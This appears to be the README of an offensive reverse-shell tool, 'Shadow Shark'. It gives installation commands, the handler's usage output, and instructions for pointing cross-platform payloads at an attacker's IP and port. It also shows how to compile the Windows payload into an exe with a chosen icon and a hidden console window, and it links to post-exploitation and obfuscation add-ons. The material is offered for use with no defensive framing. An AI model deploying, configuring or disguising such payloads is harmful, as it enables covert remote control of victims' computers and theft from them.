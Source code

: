 # Shadow Shark Reverse Shell 
A full fledged reverse TCP payload written in pure python3.

## Installation
### Debian
```
$ sudo apt-get install python3 git
$ cd /opt/
$ sudo git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin/
```
### Arch
```
$ sudo pacman -S python git
$ cd /opt/
$ sudo git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin/
```

## Usage
### ShadowShark.py
```
$ ShadowShark --help

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
usage: ShadowShark.py [-h] -lh LHOST -lp LPORT -e ENCRYPTION

This tool is a full fledged reverse TCP handler used to interact with Shadow
Shark payloads. Created by Mr. Shark Spam Bot.

optional arguments:
  -h, --help            show this help message and exit
  -lh LHOST, --lhost LHOST
                        Your IP address.
  -lp LPORT, --lport LPORT
                        The port to listen for connections on.
  -e ENCRYPTION, --encryption ENCRYPTION
                        The encryption used for sent and recieved data.
$ ShadowShark --lhost 0.0.0.0 --lport 8080 --encryption hex

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
[*] A reverse TCP handler on 0.0.0.0:8080 has successfully started...
```
The current supported encryptions are hex, base64, and  <a href="https://github.com/MrSharkSpamBot/CadaverousCipher">CadaverousCipher</a>. To use CadaverousCipher encryption, generate a dictionary as shown its github page and save the dictionary to the file dictionary_key.json. To send data with newline characters use the command multiline.
### ShadowSharkPayload.py
This payload can run on Linux, Windows, and MacOS. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### UnixPayload.py
This payload can run on any Unix based system. To configure the payload go to line 35 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from. The command directory prints the current working terminal prompt. The command background_exec runs any bash command in the background.
### WindowsPayload.py
This payload can run on any Windows system. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from. The command directory prints the current working directory. The command background_exec runs any cmd command in the background.
### Compile.py
This compilation script can only be run on a Windows computer or Wine environment. To configure the compilation script go to line 14 and replace ICON with the icon file you want your exe file to have to have. To do this make sure that the ShadowSharkPayload.py script, your icon file, and the Compile.py script are in the same folder and that py2exe is installed.
```
# First install python3 on your Windows computer or Wine environment.
$ pip install py2exe
$ python Compile.py py2exe
```
### Alternative compilation
```
# First install python3 on your Windows computer or Wine environment.
$ pip install nuitka zstandard
$ nuitka --windows-disable-console --windows-icon-from-ico=icon.ico --onefile WindowsPayload.py
```

## Post Exploitation
<a href="https://github.com/BababooeyHackers/ScreenView">Screen View</a><br>
<a href="https://github.com/BababooeyHackers/Downloader">Downloader</a>

## Obfuscation
<a href="https://github.com/MrSharkSpamBot/GlidingSword">Gliding Sword</a>
